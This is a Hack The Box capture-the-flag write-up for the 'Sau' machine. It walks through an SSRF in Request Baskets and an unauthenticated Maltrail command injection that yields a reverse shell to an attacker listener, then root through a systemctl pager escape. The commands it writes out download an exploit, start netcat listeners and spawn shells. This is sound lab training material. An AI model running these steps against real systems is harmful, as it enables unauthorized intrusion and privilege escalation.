 ```yaml
---
layout: single
title: Sau - Hack The Box
excerpt: ""
date: 2024-09-28
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-writeup/
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - linux
  #- http
---
```



## Synopsis

Sau is an easy Linux machine featuring a vulnerable instance of **Request Baskets** (CVE-2023-27163), which allows **Server-Side Request Forgery (SSRF)**. Leveraging this vulnerability, we gain access to a **Maltrail** instance vulnerable to **Unauthenticated OS Command Injection**, enabling a reverse shell as the `puma` user. A **sudo misconfiguration** is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Linux fundamentals  

## Skills Learned
- Exploiting SSRF vulnerabilities  
- Command injection  
- Sudo exploitation  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.224 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.10.11.224

The scan reveals:
- **Port 22:** OpenSSH  
- **Port 80:** Filtered  
- **Port 55555:** HTTP service (Request Baskets)  


## Exploitation

### Request Baskets SSRF (CVE-2023-27163)
The Request Baskets instance (version 1.2.1) is vulnerable to SSRF via the `/api/baskets/{name}` endpoint. This allows us to enumerate internal services.

1. Create a new basket and configure it to forward requests to our machine:

   nc -lnvp 80
   Set the **Forward URL** to `http://<attacker-IP>` and enable **Proxy Response** and **Expand Forward Path**.

2. Access the basket and observe the response:
   curl http://10.10.11.224:55555/<basket-id>

3. Forward requests to `http://127.0.0.1:80` to discover the **Maltrail** instance running internally.


### Maltrail Command Injection
The Maltrail instance (version 0.53) is vulnerable to **Unauthenticated OS Command Injection**.

1. Download the exploit:
   curl -s https://www.exploit-db.com/download/51676 > exploit.py

2. Start a Netcat listener:
   nc -lnvp 4444

3. Execute the exploit:
   python3 exploit.py <attacker-IP> 4444 http://10.10.11.224:55555/<basket-id>

4. Gain a reverse shell as the `puma` user:
   script /dev/null -c bash
   # Ctrl + z
   stty -raw echo; fg
   # Enter (Return) x2

5. Retrieve the user flag:
   cat /home/puma/user.txt

## Privilege Escalation

### Sudo Misconfiguration
The `puma` user can run `/usr/bin/systemctl status trail.service` as root without a password. This, combined with a vulnerable **Systemd version (245)**, allows privilege escalation.

1. Check sudo permissions:
   sudo -l

2. Exploit the Systemd vulnerability (CVE-2023-26604):
   sudo /usr/bin/systemctl status trail.service

3. When prompted, execute:
   !/bin/bash

4. Gain a root shell and retrieve the root flag:
   cat /root/root.txt

## Conclusion

Sau demonstrates the risks of **SSRF** and **command injection** vulnerabilities. By exploiting these and leveraging a **sudo misconfiguration**, we escalate privileges from a low-privileged user to root. This box highlights the importance of secure configurations and timely patching.

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.